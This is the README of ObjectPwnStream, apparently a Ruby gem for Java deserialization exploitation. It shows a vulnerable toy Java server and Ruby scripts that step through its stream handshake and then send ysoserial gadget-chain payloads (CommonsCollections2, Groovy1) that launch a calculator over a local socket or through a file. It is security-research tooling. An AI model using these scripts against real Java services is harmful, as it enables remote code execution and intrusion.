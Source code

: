 # ObjectPwnStream

a Ruby implementation of Java's `ObjectInputStream` and `ObjectOutputStream`, to ease the process of Java deserialization exploitation.

the library is currently able to deliver the serialized payloads to TCP connections (`tcpSocket.getInputStream()`) and files (`FileInputStream()`).
## Requirements
- Ruby v3.0.0 or newer

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'ObjectPwnStream'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install ObjectPwnStream

Or install it from main branch:

    $ git clone https://github.com/hakivvi/ObjectPwnStream
    $ cd ObjectPwnStream
    $ bundle install && bundle exec rake install

## Usage
the library provides a set of methods to mimic the methods of both `ObjectInputStream` and `ObjectOutputStream`,

the `readObject()` method is not always the first function run on a `Socket` or a `FileInputStream`, so you can't just feed the server with your serialized payload or else `java.io.StreamCorruptedException` will be thrown by the server.

take this [test server](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServer.java) for example, which does read and write a bunch of types before actually calling `readObject()` which the attacker is usually interested in:
```java
                s = serverSock.accept();
                System.out.println("[+] Connection accepted from " + s.getInetAddress().getHostAddress() + ":" + s.getPort());
                
                oos = new ObjectOutputStream(s.getOutputStream());
                ois = new ObjectInputStream(s.getInputStream());

                oos.writeInt(serverVersion);
                oos.flush();
                System.out.printf("[>] writeInt(): 0x%x\n", serverVersion);

                System.out.printf("[<] readInt(): 0x%x\n", ois.readInt());

                oos.writeUTF(serverName);
                oos.flush();
                System.out.printf("[>] writeUTF(): %s\n", serverName);

                System.out.printf("[<] readUTF(): %s\n", ois.readUTF());


                oos.writeShort(0xabcd);
                oos.flush();
                System.out.printf("[>] writeShort(): 0x%x\n", 0xabcd);

                System.out.printf("[<] readShort(): 0x%x\n", ois.readShort());
                
                oos.writeLong(-12345);
                oos.flush();
                System.out.printf("[>] writeLong(): %d\n", -12345);

                System.out.printf("[<] readLong(): %d\n", ois.readLong());


                oos.writeObject(new ToyServer());
                oos.flush();
                System.out.println("[>] writeObject()");

                System.out.println("[<] readObject()");
                try {
                	ois.readObject();
               	} catch (Throwable e) {}
```
to reach the `readObject()` method in this server connection, we should read and write successively `int`, `utf`, `short` etc.
using `ObjectPwnStream` library, we can do just that:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new(host: "127.0.0.1", port: 9090)
pwnStream.connect!
pwnStream.open_streams!
pwnStream.read_int
pwnStream.write_int(0x1337)
pwnStream.read_utf
pwnStream.write_utf "ObjectPwnStream"
pwnStream.read_short
pwnStream.write_short(0xabcd)
pwnStream.read_long(signed: true)
pwnStream.write_long(-12345)
pwnStream.read_object
pwnStream.ysoserial_generate!("./ysoserial.jar","CommonsCollections2", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
```
or as a [`FileInputStream`](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServerFileMode.java):
```java
        ObjectInputStream fis = new ObjectInputStream(new FileInputStream("/tmp/to_deserialize_file"));

        System.out.printf("got a long from the file: %d\n", fis.readLong());
        try {
            fis.readObject();
        } catch(Throwable e){}
        System.out.println("readObject(): done.");
```
to successfully reach `readObject()`, we should provide a valid `long` type first, the [script](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/test_file_mode.rb) will be:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new(file_path: "/tmp/to_deserialize_file")
pwnStream.connect!
pwnStream.open_output_stream!
pwnStream.write_long(12345)
pwnStream.ysoserial_generate!("../ysoserial.jar", "Groovy1", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
pwnStream.close!
```
## PoC

find a test vulnerable Java server and a Ruby ObjectPwnStream exploit in the [test](https://github.com/hakivvi/ObjectPwnStream/tree/main/spec/test) directory.

![poc](https://user-images.githubusercontent.com/67718634/170808392-1ce8efff-b8c6-4372-8d7a-b20b4fbeadc9.gif)


## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ObjectPwnStream. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the ObjectPwnStream project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://opensource.guide/code-of-conduct/).

## Todo

- [ ] document all the functions.
- [ ] support CLI mode.
